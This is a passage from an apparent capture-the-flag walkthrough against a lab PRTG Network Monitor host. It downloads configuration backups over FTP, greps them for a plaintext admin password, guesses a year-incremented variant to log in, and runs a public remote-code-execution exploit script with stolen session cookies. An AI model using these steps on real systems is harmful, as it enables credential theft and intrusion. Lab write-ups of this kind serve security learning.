 ```bash
06-13-20  10:10AM       <DIR>          Monitoring Database
02-25-19  10:54PM              1189697 PRTG Configuration.dat
02-25-19  10:54PM              1189697 PRTG Configuration.old
07-14-18  03:13AM              1153755 PRTG Configuration.old.bak
06-13-20  10:11AM              1637504 PRTG Graph Data Cache.dat
02-25-19  11:00PM       <DIR>          Report PDFs
02-03-19  12:18AM       <DIR>          System Information Database
02-03-19  12:40AM       <DIR>          Ticket Database
02-03-19  12:18AM       <DIR>          ToDo Database
226 Transfer complete.
ftp> get "PRTG Configuration.dat"
local: PRTG Configuration.dat remote: PRTG Configuration.dat
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
1189697 bytes received in 0.30 secs (3.8387 MB/s)
ftp> get "PRTG Configuration.old"
local: PRTG Configuration.old remote: PRTG Configuration.old
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
1189697 bytes received in 0.30 secs (3.8198 MB/s)
ftp> get "PRTG Configuration.old.bak"
local: PRTG Configuration.old.bak remote: PRTG Configuration.old.bak
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
1153755 bytes received in 0.28 secs (3.9093 MB/s)
```
We know have the 3 backup files on our box, we read all of them at once and grep for the keyword `prtgadmin` as that is the user we need to login to the website. The site is running `PRTG Netowrk Monitor` This helped us find the files that where in the ftp.

```bash
cat * | grep -A 20 -B 20 "prtgadmin"
```

This brings back a long list of results, we filter through them and find the credentials:
```php
<dbpassword>
              <!-- User: prtgadmin -->
              PrTg@dmin2018
            </dbpassword>
```
We then login to the site with theese creds but however it doesnt work, we tinker with the password and change it to `PrTg@dmin2019`
and it logs us in!

We now have access to another page which is running `PRTG Network Monitor`  like the last page.

We search for exploits and after a bit of googling we find an exploit here --> https://github.com/M4LV0/PRTG-Network-Monitor-RCE

We then use the exploit like so:
```bash
./prtg-exploit.sh -u http://10.10.10.10 -c "_ga=GA1.4.XXXXXXX.XXXXXXXX; _gid=GA1.4.XXXXXXXXXX.XXXXXXXXXXXX; OCTOPUS1813713946=XXXXXXXXXXXXXXXXXXXXXXXXXXXXX; _gat=1"
```
We replace all the values with our cookies from inspect element/network/cookies and we run the exploit.
